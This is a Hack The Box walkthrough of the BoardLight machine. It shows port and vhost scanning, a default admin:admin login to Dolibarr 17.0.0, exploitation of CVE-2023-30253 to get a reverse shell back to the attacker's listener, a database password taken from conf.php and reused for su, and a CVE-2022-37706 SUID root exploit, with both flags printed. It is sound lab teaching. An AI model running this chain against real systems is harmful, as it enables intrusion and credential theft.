





---
tags:
  - Hack The Box
  - Boardlight
---

# BoardLight



If you’ve ever dipped your toes into the world of ethical hacking, chances are you’ve heard of HackTheBox (HTB). It’s a platform that provides a variety of virtual machines (VMs) designed to challenge your hacking skills. Today, we’ll dive into a detailed walkthrough of the **BoardLight Writeup** VM on HTB. This writeup will guide you through each step, from initial recon to capturing the final flag, ensuring you grasp every concept along the way.

# Enumeration 

```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/boardlight]
└─$ nmap -sC -sV 10.10.11.11             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 12:49 +08
Nmap scan report for 10.10.11.11
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.05 seconds
```
## Analyzing open ports and services 

From our Nmap scan, we might find ports like 80 (HTTP) and 22 (SSH) open. Let’s focus on HTTP first, as web applications are often rich with vulnerabilities.

## Exlporing the web server 

Open your browser and navigate to `http://10.10.10.XYZ`. Here, we might find a web application running BoardLight.



## Directory and File Brute-Forcing

We find the new domain `crm.board.htb`, so let’s also add this domain to the `/etc/hosts` file next to the previous domain we already added before, and browse to it.

```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/boardlight]
└─$ gobuster vhost -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://board.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb Status: 200 [Size: 6360]
```



We find a login page and the name and version of what is running behind, `Dolibarr 17.0.0`.

I tried to log in with default credentials `admin:admin` and was able to do so, but my actions are limited.



Because we know the version of the service running, we can search and see if it has any vulnerabilities.


I found that `Dolibarr 17.0.0` has `CVE-2023-30253`, and found this [website](https://www.swascan.com/security-advisory-dolibarr-17-0-0/) which shows a step-by-step PoC.

## `CVE-2023-30253`

I followed the steps on the website and used `revshell.com` to get a reverse shell. To get a reverse shell you need to create a new website and a new page for that website, and then edit the code in the page to look like this:

You can also use the automated script from GitHub. I would suggest reading through the PoC to understand how the attack works and then using the GitHub script because I had a hard time making the manual method work and the machine kept getting reset. After the third reset, I found the GitHub script because the manual method took three or four tries for it to work for me, even though it worked on the first try the first time.

- URL: [https://github.com/nikn0laty/exploit-for-dolibarr](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253?source=post_page-----b1eb10fb818c--------------------------------)


```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/boardlight]
└─$ python3 exploit.py http://crm.board.htb admin admin 10.10.16.3 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```
And we got a connection back and a reverse shell 

```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/boardlight]
└─$ nc -nlvp 4444  
listening on [any] 4444 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.11] 33836
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```

From conf.php from the dolibarr cms we found the below credentials to the sql database

```bash
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

## User flag 

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
Password: 
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ ls
conf.php  conf.php.example  conf.php.old
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ cd ~
larissa@boardlight:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
larissa@boardlight:~$ cat user.txt 
fd2aa80caeac62c781723f1db333fc55
larissa@boardlight:~$ 
```

## Root flag 

```bash
larissa@boardlight:~/Downloads$ chmod +x exploit.sh
larissa@boardlight:~/Downloads$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# cd /root
# ls
root.txt  snap
# cat root.txt
6bb593385f458874ad25d4bab503253b
```


